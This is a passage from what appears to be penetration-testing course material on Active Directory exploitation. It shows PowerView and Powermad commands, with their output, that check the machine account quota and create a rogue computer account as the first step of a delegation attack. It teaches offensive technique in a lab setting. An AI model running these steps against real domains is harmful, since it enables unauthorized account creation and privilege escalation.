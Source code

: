 By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the _ms-DS-MachineAccountQuota_ property in the Active Directory domain object.

We can enumerate _ms-DS-MachineAccountQuota_ with the PowerView Get-DomainObject method:

```
PS C:\tools> Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10
```

> Listing 35 - Enumerating ms-DS-MachineAccountQuota

Normally, the computer account object is created when a physical computer is joined to the domain. We can simply create the object itself with the New-MachineAccount method of the _Powermad.ps1_[4](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_638-4) PowerShell script.

Powermad is located in the C:\Tools folder on the Windows 10 client machine. To use it, we'll specify the target computer account name (-MachineAccount) and the password (-Password). The password must be supplied as a _SecureString_, which we can generate with ConvertTo-SecureString[5](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_638-5) as shown in Listing 36.

```
PS C:\tools> . .\powermad.ps1

PS C:\tools> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
[+] Machine account myComputer added

PS C:\tools> Get-DomainComputer -Identity myComputer

pwdlastset             : 4/14/2020 2:35:29 PM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=myComputer,CN=Computers,DC=prod,DC=corp1,DC=com
objectclass            : {top, person, organizationalPerson, user...}
name                   : myComputer
serviceprincipalname   : {RestrictedKrbHost/myComputer, HOST/myComputer,
                         RestrictedKrbHost/myComputer.prod.corp1.com,
                         HOST/myComputer.prod.corp1.com}
...
```

> Listing 36 - Creating computer account with Powermad

Listing 36 shows that the command was successful and subsequent enumeration with Get-DomainComputer reveals that the computer account object is present.

The _msDS-AllowedToActOnBehalfOfOtherIdentity_ property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.
